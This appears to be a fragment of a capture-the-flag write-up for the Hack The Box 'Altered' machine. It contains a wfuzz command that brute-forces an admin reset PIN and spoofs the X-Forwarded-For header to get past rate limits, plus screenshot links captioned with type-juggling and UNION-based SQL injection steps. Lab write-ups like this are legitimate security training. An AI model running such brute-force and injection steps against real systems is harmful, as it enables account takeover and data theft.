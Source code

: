 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/wfuzz%20brute%20force%20pin%201.png)


````bash

wfuzz -z range,0000-9999 -w iptable -u "http://10.10.11.159/api/resettoken" -H "Cookie: XSRF-TOKEN=eyJpdiI6IkFZNUNORWFwQ21ZWUJYcDhvaEZSYVE9PSIsInZhbHVlIjoidXpMTVcxMk0rTWNDTWFWRWE3YWYwUXVJY0ZWU012NlhzeTJncnVXYUhma0NMekRhSGMwaTVNYzdESWV3NEkwMHVpM2lDaFFpV2VXeGwvbSszeXg3RWo0MzZnVENpZUdKNnZ3RDlPWm9iVnlhZlZVeERrNGZCbzI4TmhOdjJXTVgiLCJtYWMiOiJmYWYzMzY2ZjE0MzRiZmUyMmQ5NGY1ZGMyZWE5MzY5ZDg3MzI0NDY1ZGI4M2E2ZThjOGY5NDA4ZDU4NjRhN2U3IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ik5UemNKL1Iwb2RuSTdSTmpWdExBUkE9PSIsInZhbHVlIjoiSVpDRm10bHdHdFp2TklBY3ludVpqM0tKNTdKcUZhYVM0S2hSVWdwMkd4TnE0RUJRU2RhUXNsR2UzS2dKOVlLV2lxR0VNd0I2dHBIRzBRUGltS2lDYVhqbUlrMnpJKzdxazRnanV6azFJMkFOOXFoV2YzVmk3TVQxbTdvUHhUc1YiLCJtYWMiOiIwMzAxMzFkYTE3ZWVlNWZjYjAzODFhMzgwNzNmMTRhNjQ2OTgyMjdhZDEwY2RhMWU1MjhmOGU0MWY1YTg5OTAwIiwidGFnIjoiIn0%3D" -d "name=admin&pin=FUZZ" -H "X-Forwarded-For: FUZ2Z" -m zip --hh 5644


`````

## wfuzz without filter
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/wfuzz%20unfiltered.png)

## wfuzz: filter amount chars --> valid pin?
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/valid%20pin.png)

## login dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/login%20dashboard.png)

## burpsuite dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20login%20dashboard%20secret%20parameter%20initial.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20login%20dashboard%20tampering%20detected.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20convert%20query%20parameter%20to%20json.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20type%20juggling.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli%20union%20with%20existence%20id.png)


![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli%20union%20with%20notexistence%20id.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli%20union%20write%20data.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli%20extract%20data.png)

